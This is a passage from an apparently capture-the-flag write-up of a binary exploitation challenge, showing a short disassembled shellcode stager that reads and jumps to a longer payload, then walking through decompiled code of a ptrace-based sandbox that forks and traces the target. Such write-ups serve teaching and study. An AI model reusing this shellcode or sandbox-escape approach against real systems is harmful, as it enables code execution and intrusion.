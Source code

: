 ```asm
10
   0:   4c 89 ee                mov    rsi, r13
   3:   5a                      pop    rdx
   4:   5f                      pop    rdi
   5:   57                      push   rdi
   6:   0f 05                   syscall 
   8:   ff e6                   jmp    rsi
```

Now I can create an very long shellcode.

### Sandbox
At this point, it may seem like creating an execve shellcode isn't too far away, but I haven't even talked about the <span style="color:#00ffff">sandbox</span> binary. The challenge actually presents us with 2 binaries, <span style="color:#00ffff">kreis</span> and <span style="color:#00ffff">sandbox</span>. The binary I just talked about above was the <span style="color:#00ffff">kreis</span> binary, however the service actually will run `./sandbox kreis`. Here's the decompilation of the main function in <span style="color:#00ffff">sandbox</span>.

```c
init(param_1);
if ((int)param_1 < 2) {
    fprintf(stderr,"Run: %s [program]\n",*param_2);
    uVar2 = 0xffffffff;
}
else {
    uVar1 = fork();
    if (uVar1 == 0) {
        run_target(param_2[1]);
    }
    else {
        if ((int)uVar1 < 1) {
        fwrite("Fork error",1,10,stderr);
        return 0xffffffff;
    }
    run_debugger((ulong)uVar1);
    }
    uVar2 = 0;
}
return uVar2;
```

[fork](http://man7.org/linux/man-pages/man2/fork.2.html) is a function that clones the current process. Everything is the same between the parent and the child, except for a few exceptions. The return value that it gives is the child process ID for the parent, and 0 for the child. This means, the child will be the process that runs the run_target function.

Below is the decompilation of the run_target function

```c
lVar1 = ptrace(PTRACE_TRACEME,0,0,0);
if (lVar1 < 0) {
    fwrite("Error ptrace\n",1,0xd,stderr);
}
else {
    execl(param_1,param_1,0);
}
return;
```
